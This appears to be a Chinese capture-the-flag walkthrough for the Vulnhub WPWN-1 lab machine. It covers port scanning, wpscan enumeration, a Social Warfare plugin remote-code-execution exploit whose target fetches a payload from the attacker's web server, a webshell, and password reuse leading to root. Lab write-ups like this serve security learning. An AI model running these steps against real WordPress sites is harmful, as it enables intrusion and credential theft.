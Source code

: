 ```yaml
---

title: Vulnhub	537 SO WPWN-1
date: 2020-08-18
---
```

考点：dirsearch,wordpress,sudo

靶机链接：<https://www.vulnhub.com/entry/wpwn-1,537/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| WPWN-1     | 10.0.2.39 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.39
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:b7:db:e0:ba:63:76:af:d0:20:03:11:e1:3c:0e:34 (RSA)
|   256 2e:20:56:75:84:ca:35:ce:e3:6a:21:32:1f:e7:f5:9a (ECDSA)
|_  256 0d:02:83:8b:1a:1c:ec:0f:ae:74:cc:7b:da:12:89:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

### WEB测试

#### dirsearch

发现wordpress目录，看来是搞wordpress了

![1](https://www.vulnhub.cn/walkthrough/537/1.webp)

#### wpscan

```bash
$ wpscan --url http://10.0.2.39/wordpress --api-token ******************************************* -e
```

![2](https://www.vulnhub.cn/walkthrough/537/2.webp)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://www.vulnhub.cn/walkthrough/515/3.webp)
```bash
$ python2  46794.py -t http://10.0.2.39/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![3](https://www.vulnhub.cn/walkthrough/537/3.webp)

### 用户权限

查看wordpress数据库配置

![4](https://www.vulnhub.cn/walkthrough/537/4.webp)

获得密码`R3&]vzhHmMn9,:-5`

查看/home文件夹发现用户 `takis`

![5](https://www.vulnhub.cn/walkthrough/537/5.webp)

登录成功

## 提权

![6](https://www.vulnhub.cn/walkthrough/537/6.webp)

获得root权限

### 彩蛋

这里root.txt找flag的过程中发现还有个彩蛋

![7](https://www.vulnhub.cn/walkthrough/537/7.webp)



关联[vulnhub515](https://www.iihack.com/2020/07/17/vulnhub-515.html)